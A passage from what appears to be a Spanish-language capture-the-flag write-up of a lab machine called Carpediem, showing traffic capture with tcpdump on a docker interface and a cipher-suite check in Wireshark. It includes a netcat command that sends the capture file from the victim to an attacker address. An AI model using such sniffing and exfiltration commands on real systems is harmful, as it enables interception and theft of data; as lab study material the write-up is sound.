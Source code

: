 Pero como en la maquina host puedo  ponerme en escucha con tcpdump ya que cuento con los privilegios, me pondré en escucha por la interfaz docker0 para ver si existe algún tipo de trafico que esta maquina o las maquinas entre si se estén enviando, entonces me voy a /tmp con tcpdump una vez que llega a 200 o mas de trafico captura, transfiero la captura a mi maquina de atacante
```bash
hflaccus@carpediem:/tmp$ tcpdump -i docker0 -w captura.cap -v
```
![Tcpdump](../assets/images-Carpediem/tcpdump.png)

```bash
#Maquina victima
nc 10.10.16.6 4444 < captura.cap
#maquina atacante
nc -nlvp 4444 > captura.cap
```
Entonces la captura del trafico la abrimos con wireshark 
En peticiones SSL suele haber una petición primeriza como hello que inicia la comunicación y se comparten cosas, extesiones, versiones, protocolos y demás, y es interesante ver lo que se esta empleando y en función de lo que se emplee podemos llegar a hacer algo 

![Wireshark](../assets/images-Carpediem/Wireshark.png)

vemos que se esta empleando RSA y en TLS_RSA_WITH_AES_256_CBC_SHA256, buscamos esto para ver si supone un riesgo

![RSA](../assets/images-Carpediem/RSA.png)
